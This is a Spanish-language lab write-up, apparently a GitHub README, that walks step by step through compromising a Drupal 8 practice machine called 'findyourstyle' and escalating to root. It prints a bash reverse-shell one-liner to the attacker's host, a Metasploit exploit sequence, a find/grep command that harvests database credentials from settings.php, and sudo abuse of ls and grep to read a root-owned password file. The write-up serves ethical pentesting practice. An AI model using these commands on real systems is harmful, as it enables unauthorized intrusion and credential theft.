 # Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`


---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

(Suponiendo el uso de nmap, se recomienda documentar el comando)

---

### 3. Identificación del CMS con WhatWeb

    whatweb http://172.17.0.2

Se identificó que el sitio web utiliza **Drupal 8**.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8

Se selecciona el exploit:

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks y usamos el siguiente comando:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta acceso sin TTY:

    script /dev/null -c "su ballenita"

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que `ballenita` puede ejecutar como root:

    sudo /bin/ls /root

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
